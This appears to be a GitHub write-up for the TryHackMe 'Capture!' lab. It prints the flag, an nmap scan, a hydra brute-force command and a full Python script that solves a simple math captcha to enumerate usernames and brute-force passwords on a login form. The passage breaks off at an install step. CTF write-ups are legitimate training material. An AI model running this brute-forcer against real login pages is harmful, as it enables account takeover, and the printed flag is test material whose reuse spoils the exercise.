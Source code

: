 # <div align="center">[Capture!](https://tryhackme.com/r/room/capture)</div>

<div align="center">
  <img src="https://github.com/user-attachments/assets/b80bf4c0-f7c0-4d57-9365-cfec6de6020a" height="200"></img>
</div>

## Task 1. Download the file.
```
NO need
```
## Tast 2. Bypass the login form
### What is the value of flag.txt?
```
7df2eabce36f02ca8ed7f237f77ea416
```
<!--## Let make a Nmap scan
```
death@esther:~$ nmap 10.10.236.203 -sV 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-02 06:37 IST
Nmap scan report for 10.10.236.203
Host is up (0.15s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Werkzeug/2.2.2 Python/3.8.10
```
## Let en=

## As we have both user and pass file let try to brute force login page using hydra.
```
sudo hydra -L usernames.txt -P passwords.txt 10.10.236.203 http-post-form "/login:username=^USER^&password=^PASS^:Error" -V -t 40
```

## Hydra didnt find anything,but when i try to login just to check it return me an error

![image](https://github.com/user-attachments/assets/0ae972ca-ff87-4f06-bbd0-4d1b34b97989)

* ### Too many bad login attempts!
* ### Captcha enabled
* ### Error: Invalid captcha

## We need to buypass captcha by creating own python script . it took help of [This script](https://github.com/sakibulalikhan/thm-capture/blob/main/capture.py)

```

#! /bin/python3

import requests
import argparse

def solveCaptcha(captcha):
    if captcha[1] == '+':
        ans = int(captcha[0]) + int(captcha[2])
    elif captcha[1] == '-':
        ans = int(captcha[0]) - int(captcha[2])
    elif captcha[1] == '*':
        ans = int(captcha[0]) * int(captcha[2])
    elif captcha[1] == '/':
        ans = int(captcha[0]) / int(captcha[2])
    return ans

def crackUsername(url, captcha):
    print('[+] Starting username brute force...\n')
    f = open('./usernames.txt', 'r')
    for i in f:
        ans = solveCaptcha(captcha)
        myData = f'username={i.strip()}&password=letmein&captcha={ans}'
        sReq = requests.post(url, data=myData, headers={'Content-Type': 'application/x-www-form-urlencoded'})
        sReq = sReq.text.split('\n')
        if 'does not exist' not in sReq[104]:
            print(f'!!! Username Found: {i.strip()}\n')
            crackPassword(i.strip(), captcha)
        else:
            captcha = sReq[96].split()

def crackPassword(uName, captcha):
    print('[+] Starting password brute force...\n')
    f = open('./passwords.txt', 'r')
    for i in f:
        ans = solveCaptcha(captcha)
        myData = f'username={uName}&password={i.strip()}&captcha={ans}'
        sReq = requests.post(url, data=myData, headers={'Content-Type': 'application/x-www-form-urlencoded'})
        if len(sReq.text) < 100:
            print(f'!!! Password Found: {i.strip()}\n')
            print(f'!!! Flag: {sReq.text.split()[1][4:-5]}')
            quit()
        else:
            sReq = sReq.text.split('\n')
            captcha = sReq[96].split()

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Brute force username and password with captcha.')
    parser.add_argument('--host', '-t', type=str, help='Target host URL')
    args = parser.parse_args()

    if args.host:
        url = f'http://{args.host}/login'
        print(f'[+] Starting bruteforce with target URL: {url}\n')
        
        for i in range(0, 10):
            myData = 'username=admin&password=letmein'
            sReq = requests.post(url, data=myData, headers={'Content-Type': 'application/x-www-form-urlencoded'})
            sReq = sReq.text.split('\n')
            captcha = sReq[96].split()

        crackUsername(url, captcha)
    else:
        print("Error: You have to specify the target host using the --host or -t flag.")
        print("Usage: ./script.py --host $IP")
             
```
## Save this in a file and name somthing with .py extention.
### Install the requirments
